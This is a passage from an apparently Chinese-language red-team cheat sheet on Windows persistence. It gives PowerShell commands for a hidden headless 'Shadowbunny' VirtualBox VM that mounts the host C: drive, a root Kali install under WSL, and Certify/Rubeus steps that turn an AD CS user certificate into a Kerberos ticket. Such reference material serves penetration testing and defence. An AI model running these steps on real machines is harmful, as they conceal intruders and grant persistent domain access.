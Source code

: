 ```ps1
# 创建新的VM
$vmname = "IT Recovery"
.\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register

# 添加NAT模式的网络适配器
.\VBoxManage.exe modifyvm $vmname --ioapic on  # 对于64位系统是必需的
.\VBoxManage.exe modifyvm $vmname --memory 1024 --vram 128
.\VBoxManage.exe modifyvm $vmname --nic1 nat
.\VBoxManage.exe modifyvm $vmname --audio none
.\VBoxManage.exe modifyvm $vmname --graphicscontroller vmsvga
.\VBoxManage.exe modifyvm $vmname --description "Shadowbunny"

# 挂载VHD文件
.\VBoxManage.exe storagectl $vmname -name "SATA Controller" -add sata
.\VBoxManage.exe storageattach $vmname -comment "Shadowbunny Disk" -storagectl "SATA Controller" -type hdd -medium "$env:USERPROFILE\VirtualBox VMs\IT Recovery\shadowbunny.vhd" -port 0

# 启动VM
.\VBoxManage.exe startvm $vmname –type headless 


# 可选 - 添加共享文件夹
# 需要：VirtualBox Guest Additions
.\VBoxManage.exe sharedfolder add $vmname -name shadow_c -hostpath c:\ -automount
# 然后在VM中挂载文件夹
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c
```

### Windows子系统 for Linux

```ps1
# 列出并安装在线软件包
wsl --list --online
wsl --install -d kali-linux

# 使用本地软件包
wsl --set-default-version 2
curl.exe --insecure -L -o debian.appx https://aka.ms/wsl-debian-gnulinux
Add-AppxPackage .\debian.appx

# 以root身份运行机器
wsl kali-linux --user root
```

## 域

### 用户证书

```ps1
# 为用户模板请求证书
.\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User

# 将证书转换为Rubeus格式
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# 使用证书请求TGT
.\Rubeus.exe asktgt /user:username /certificate:C:\Temp\cert.pfx /password:Passw0rd123!
```
